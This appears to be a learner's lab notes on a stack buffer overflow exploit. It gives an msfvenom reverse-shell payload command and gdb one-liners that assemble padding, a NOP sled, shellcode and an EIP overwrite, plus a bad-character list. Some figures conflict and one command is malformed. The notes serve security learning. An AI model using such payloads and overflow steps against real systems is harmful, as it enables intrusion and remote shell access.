 ```shell-session
W4H33D@htb[/htb]$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c

No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
<SNIP>
```
There we see our temporary payload size is 68 bytes and we add some NOP's before the payload so they will execute smoothly.So now our BOF Notes are following
```BOF Notes
Buffer = 2060
eip = 8 bytes
shellcode = 68 bytes
NOP's = 100
```
So Now we have every thing we need to exploit buffer overflow but we strictly follow the  following instructing to exploit it correctly
```
[Buffer]+[NOP's]+[ShellCode]+[Eip] 
```
1. We have total 2060 bytes and we have to manage write our Buffer,NOP's and shellcode in it
2. After that we have find which address NOP's start and where it end's and shellcode begins
3. We can use any address between NOP's and ShellCode
4. In Last we use that address bytes to overwrite the `eip` value

So let's start with Buffer,NOP's and shellcode.
```
Buffer = Totel Buffer - NOP's - ShellCode - EIP

Example:

Buffer = 2060 - 100 - 68 - 8
```
So we use that information in `gdb` with the following command syntax
```gdb
(gdb) run $(python -c "print '\x55'*(2060-100-68 - 8)+'\x90'*100+'shellcode'+'eip'*8*")
```
This is all we need here
- `\x55` is our buffer 
- `\x90` is NOP's
- `shellcode` This contains our shell code
- `eip` This contains any address between NOP's and shellcode

By Putting all the values they are like following

```gdb
(gdb) run $(python -c "print '\x55'*(2060-100-68-8)+'\x90'*73+'\xbd\xb4\xeb\x88..<snip>..\x47\x84\x13\x5d\xd5\x05\xad'+'\x66'*8")
```
If the program show segmentation fault error with the address like `0x66666666` then we are on right track.So now we have to find Bad characters so we can exclude bad characters from our payload.Bad Characters are following  
```
"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
This is the total bad characters now we use bad character in our shellcode place like the following command syntax